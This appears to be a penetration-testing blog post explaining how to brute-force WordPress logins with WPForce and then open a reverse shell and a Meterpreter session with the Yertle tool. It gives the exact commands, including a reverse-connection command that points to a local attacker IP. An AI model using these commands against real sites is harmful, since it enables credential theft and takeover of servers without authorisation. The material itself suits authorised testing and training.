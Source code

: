 ```yaml
---
title:  "Reverse Shell in Wordpress with WPForce"
date:   2021-08-08 18:20:00 +0000
categories: [techniques]
tags: [web exploitation, wordpress]
---
```



Reverse Shell in Wordpress with WPForce and Yertle

Imagine the scenario where you are presented with a WordPress site during a pentest and want to get in.   
Standard 'author?' requests don't give you the name of any users and you need to look else where.   
One nice alternative to using WPScan to brute force the username and password field is WPForce.   
Taken from the WPForce website, link: [WPFORCE](https://www.n00py.io/category/pentesting 'WP-FORCE')


"
Unlike WPScan, which performs brute force login attempts against the login page of WordPress, WPForce uses authenticated API calls to test the validity of credentials.  While most security plugins are wise to this method, it does provide slightly more stealth.
"


So first, clone yourself a copy of WPForce

`git clone https://github.com/n00py/WPForce.git`

Once downloaded, parse the user, password and website deatils:

`python wpforce.py -i usr.txt -w pass.txt -u "http://www.[website].com"`

Once the script completes hopefully the Username and Password is dicovered. However if not choose different word-lists that are more appropriate to your scenario, maybe you get lucky.


![img-description](/images/WPForce-1.png)
_executing the script_

![img-description](/images/WPForce-2.png)
_Example of a PAssword Found sucessfully_

Having figured out the username and password to a Wordpress CMS site and now want to gain a shell.   

Normally you would either have to circumvent the upload restrictions on the Wordpress page, which can be time consuming with a lot of trial and error or disguise an upload file within a custom built plugin. Again something potentially time consuming to achieve, this is where WPForce comes in.    

WPForce is a useful tool that will create an interactive shell or a reverse TCP connection to a meterpreter listener. It also has lots of other interesting features like hooking to the BEEF Framework.    

To start with, make sure you have the python 'Requests' HTTP libraries installed, you can install them using PIP.   

`pip install requests`

Now we are set lets start..   

`Arguments - -t URL, -u username, -p password, -v verbose, -li localhost, -lp localport, -r reverse or -i interactive, -a User Agent.`

`python yertle.py -t http://192.168.0.122/wordpress -u admin -p admin -v -li 192.168.0.100 -lp 80 -r`

![img-description](/images/Yertle-1.png)
_Executing The Script_

From here we have an interactive shell with limited functionality.   

![img-description](/images/Yertle-2.png)
_Interactive Shell_

A simple directory listing from within the web server from an interactive shell.   

![img-description](/images/Yertle-3.png)
_Interactive Shell_

Now setup a Meterpreter listener to wait for our connection.   

![img-description](/images/Yertle-5.png)
_Interactive Shell_

Now we simply type 'meterpreter' and add the IP and Port details.   

![img-description](/images/Yertle-6.png)
_Interactive Shell_

We receive the meterpreter session in metasploit.   

![img-description](/images/Yertle-7.png)
_Interactive Shell_

Now we can continue our enumeration from Metasploit.   
